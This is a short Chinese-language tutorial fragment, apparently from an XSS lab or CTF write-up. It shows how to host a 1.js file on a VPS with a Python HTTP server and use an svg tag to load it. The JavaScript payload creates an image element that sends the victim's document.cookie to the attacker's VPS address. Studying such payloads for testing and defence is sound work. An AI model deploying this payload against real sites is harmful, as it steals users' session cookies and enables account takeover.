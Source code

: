 <img src="../../images/image-20220831180739833.png" alt="image-20220831180739833" style="zoom:50%;" />


在vps上创建一个`1.js`的文件，python开启http服务.

1.js文件内容为

```
var img = document.createElement("img");
img.src='//192.168.1.118/?'+document.cookie; #（此处ip需换成自己vps的ip）
document.body.appendChild(img);
img.removeAttribute('onerror');
```

通过``svg`标签获取cookie

![image-20220901153033212](../../images/image-20220901153033212.png)

返回vps上查看结果
